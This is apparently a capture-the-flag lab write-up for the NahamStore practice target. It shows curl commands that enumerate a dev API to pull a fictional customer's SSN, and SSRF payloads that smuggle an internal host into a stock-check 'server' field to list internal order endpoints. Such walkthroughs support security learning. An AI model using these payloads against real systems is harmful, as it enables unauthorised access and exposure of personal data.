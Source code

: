 - `curl http://nahamstore-2020-dev.nahamstore.thm/api/customers/`
	```
	["customer_id is required"]
	```
- `curl http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2`
	```
	{"id":2,"name":"Jimmy Jones","email":"jd.jones1997@yahoo.com","tel":"501-392-5473","ssn":"521-61-6392"}
	```
	![13recon_task-fuzz3](imgs/13recon_task-fuzz3.png)

- So, the SSN of Jimmy Jones is `521-61-6392`

---

## SSRF (Task 9)

SSRF: redirecting to visit the internal subdomain: `internal-api`
- In burpsuite, visit `http://nahamstore.thm/product?id=1`
	- Click `Check Stock` to interject the request
	- We can see the POST parameters `product_id` and `server`
	```
	product_id=1&server=stock.nahamstore.thm
	```
	![14ssrf1](imgs/14ssrf1.png)

- Use `curl` with special characters `@` for redirecting and `#` to comment out the follow-up code
	- `curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/#" http://nahamstore.thm/stockcheck`
		```
		{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
		```
	- `curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#" http://nahamstore.thm/stockcheck`
		```
		[{"id":"4dbc51716426d49f524e10d4437a5f5a","endpoint":"\/orders\/4dbc51716426d49f524e10d4437a5f5a"},{"id":"5ae19241b4b55a360e677fdd9084c21c","endpoint":"\/orders\/5ae19241b4b55a360e677fdd9084c21c"},{"id":"70ac2193c8049fcea7101884fd4ef58e","endpoint":"\/orders\/70ac2193c8049fcea7101884fd4ef58e"}]
		```